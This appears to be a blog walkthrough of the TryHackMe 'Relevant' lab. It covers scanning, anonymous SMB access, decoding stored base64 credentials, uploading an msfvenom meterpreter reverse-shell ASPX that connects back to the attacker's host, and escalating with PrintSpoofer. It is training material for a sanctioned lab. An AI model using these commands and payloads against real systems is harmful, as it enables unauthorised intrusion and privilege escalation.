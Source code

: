 ```yaml
---
title: TryHackMe - Relevant
layout: post
categories:
- TryHackMe
tag:
- pentest,
- security,
- accessible
image: "/assets/img/relevant.jpeg"
New field 8: relevant
---
```


Relevant is a medium challenge from TryHackMe. There are some ways to complete this machine. I'll solve it one way. Let's start.

<br>

## 1. Pre-Engagement Briefing 

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

   - User.txt
   - Root.txt

Additionally, the client has provided the following scope allowances:

   - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
   - Locate and note all vulnerabilities found
   - Submit the flags discovered to the dashboard
   - Only the IP address assigned to your machine is in scope
   - Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)
I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.

**Writeups will not be accepted for this room.**

<br>

### 1.1 User Flag?

Let's do a nmap scan first.

```
$ nmap -sSV -P- 10.10.7.6
```

![nmap](/assets/img/tryhackme/relevant/nmap.png)

And we found a few ports that will work for us. These are 80/tcp HTTP, 49663/tcp HTTP, and 445/tcp

I did a gobuster scan, and the connection to both HTTP ports, probably due to my VPN, was very slow, I couldn't wait, so I couldn't get any results from the gobuster scan.

```
$ gobuster dir -u http://10.10.7.6:49663/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/relevant/gobuster.png)

So I decided to try SMB login.

```
$ smbclient -L //10.10.7.6
```

![smb](/assets/img/tryhackme/relevant/smb.png)

There is no password.

We found this `nt4wrksv`. Now, let's try to get in here.

```
$ smbclient //10.10.7.6/nt4wrksv
```

![password](/assets/img/tryhackme/relevant/password.png)

We found the passwords.txt file. Let's see what's in it.

```
> get passwords.txt
> exit
$ cat passwords.txt
```

![smbin](/assets/img/tryhackme/relevant/smbin.png)

This file contains base64 encoded credentials:

```
$ echo "Qm9iIVBAJCRXMHJEITRyMw==" | base64 -d
$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA20TY5NjkhJCQK" | base4 -d
```

![base64](/assets/img/tryhackme/relevant/base64.png)

**`Bob : !P@$$W0rD!123`**

**`Bill: Juw4nnaM4n420696969!$$$`**

You have access to SMB, so let's check if we can install and run the reverse shell.

First, let's create a reverse shell. Then let's put it in SMB.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.168.86 lport=4444 -f aspx -o shell.aspx
$ smbclient //10.10.7.6/nt4wrksv
$ put shell.aspx 
```

![payload](/assets/img/tryhackme/relevant/payload.png)

Now let's create a listener using metasploit.

```
$ msfconsole
> use exploit/multi/handler
> set payload windows/x64/meterpreter_reverse_tcp
> set LHOST 10.8.168.86
> set LPORT 4444
> run
```
And call the reverse shell in the browser **`http://10.10.7.6:49663/nt4wrksv/shell.aspx`**

And we are inside.

![info](/assets/img/tryhackme/relevant/info.png)

Now we can get the user flag.

```
> cd c:/Users/Bob/Desktop
> cat user.txt
```

![user-flag](/assets/img/tryhackme/relevant/user-flag.png)

<br>

### 1.2 Root Flag?

We need to do an authorization elevation for the root flag. 
Running the “whoami /priv” command to check the current user’s privileges in the system:

```
> shell
> whoami /priv
```

![priv](/assets/img/tryhackme/relevant/priv.png)

It appears the current user has the SeImpersonatePrivilege token enabled, which means token impersonation could be used to escalate privileges.

Although Juicy Potato is normally used to exploit token impersonation, this only works if DCOM is enabled on the server. A great alternative is the PrintSpoofer exploit. Downloading the exploit from the Git repository and placing it on the nt4wrksv SMB share so it can be easily transferred to the target machine: [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

First, let's download the file and put it in SMB, then run it.

```
$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
$ smbclient //10.10.7.6/nt4wrksv
$ put PrintSpoofer64.exe
```

Let's go back to shell and follow.

```
> cd \inetpub\wwwroot\nt4wrksv
> dir
> PrintSpoofer64.exe -i -c powershell.exe
```

![privesc](/assets/img/tryhackme/relevant/privesc.png)

And now we have root privileges. Now we can reach the root flag. 

```
$ cd c:/Users/Administrator/Desktop
$ cat root.txt
```
<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
